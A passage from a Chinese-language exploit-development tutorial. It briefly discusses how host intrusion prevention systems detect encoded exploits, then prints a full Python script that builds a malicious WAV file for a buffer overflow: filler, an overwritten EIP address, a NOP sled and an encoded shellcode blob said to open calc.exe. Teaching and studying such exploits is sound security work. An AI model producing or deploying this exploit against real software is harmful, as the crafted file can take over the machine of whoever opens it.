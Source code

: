 多年前，在 HIPS 中进行基本的签名分析可能没有捕获到利用程序，因为它没有匹配一个非常具体的签名。今天，安全工具开发人员已经变得更加优秀，触发器更具分析性。因此，编码器帮助阻止 HIPS 解决方案捕获利用程序的谬论最终正在消失。

![编写基本的缓冲区溢出利用程序](img/B04315_08_30.jpg)

我们的新利用程序与`calc.exe`代码如下所示：

```py
#!/usr/bin/env python
import struct
filename="exploit.wav"
fill ="A"*4112
eip = struct.pack('<I',0x7C874413)
offset = "\x90"*10
available_shellcode_space = 320
shell =("\xda\xd3\xd9\x74\x24\xf4\xb8\x2c\xde\xc4\x11\x5a\x29\xc9\xb1"
"\x31\x31\x42\x18\x03\x42\x18\x83\xea\xd0\x3c\x31\xed\xc0\x43"
"\xba\x0e\x10\x24\x32\xeb\x21\x64\x20\x7f\x11\x54\x22\x2d\x9d"
"\x1f\x66\xc6\x16\x6d\xaf\xe9\x9f\xd8\x89\xc4\x20\x70\xe9\x47"
"\xa2\x8b\x3e\xa8\x9b\x43\x33\xa9\xdc\xbe\xbe\xfb\xb5\xb5\x6d"
"\xec\xb2\x80\xad\x87\x88\x05\xb6\x74\x58\x27\x97\x2a\xd3\x7e"
"\x37\xcc\x30\x0b\x7e\xd6\x55\x36\xc8\x6d\xad\xcc\xcb\xa7\xfc"
"\x2d\x67\x86\x31\xdc\x79\xce\xf5\x3f\x0c\x26\x06\xbd\x17\xfd"
"\x75\x19\x9d\xe6\xdd\xea\x05\xc3\xdc\x3f\xd3\x80\xd2\xf4\x97"
"\xcf\xf6\x0b\x7b\x64\x02\x87\x7a\xab\x83\xd3\x58\x6f\xc8\x80"
"\xc1\x36\xb4\x67\xfd\x29\x17\xd7\x5b\x21\xb5\x0c\xd6\x68\xd3"
"\xd3\x64\x17\x91\xd4\x76\x18\x85\xbc\x47\x93\x4a\xba\x57\x76"
"\x2f\x34\x12\xdb\x19\xdd\xfb\x89\x18\x80\xfb\x67\x5e\xbd\x7f"
"\x82\x1e\x3a\x9f\xe7\x1b\x06\x27\x1b\x51\x17\xc2\x1b\xc6\x18"
"\xc7\x7f\x89\x8a\x8b\x51\x2c\x2b\x29\xae")
nop = "\x90"*(available_shellcode_space-len(shell)-len(offset))
exploit = fill + eip + offset + shell + nop
open('exploit.wav', 'w').close()
writeFile = open (filename, "w")
writeFile.write(exploit)
writeFile.close()
```
